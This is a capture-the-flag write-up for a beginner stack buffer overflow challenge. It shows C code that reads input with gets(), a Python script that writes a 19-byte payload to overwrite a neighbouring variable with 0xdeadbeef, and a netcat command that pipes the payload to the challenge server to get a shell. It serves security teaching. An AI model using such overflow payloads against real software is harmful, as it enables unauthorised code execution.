 # Stacked

**Points**: 50

`nc pwn.osucyber.club 13377`

## Solution

File `pwn.c`
```c
int main(int argc, char** argv)
{
    setvbuf(stdout, 0, 2, 0);

    int set_me = 0;
    char buf[15];

    printf("Enter a message: ");
    gets(buf);

    if(set_me == 0xdeadbeef) {
        shell();
    }
    else {
        printf("Not authenticated.\nset_me was %x\n", set_me);
    }

    return EXIT_SUCCESS;
}
```

This is a buffer overflow vulnerability. Here is a Python script to create a
password that will overflow `buf` and set `set_me` to `0xdeadbeef`. With
little-endian ordering, the bytes need to be reversed.

```python
with open('access.txt', 'a') as f:
    a = "123456789012345\xef\xbe\xad\xde"
    f.write(a)
```

To submit the password, I ran this

```sh
cat access.txt - | nc pwn.osucyber.club 13377
```
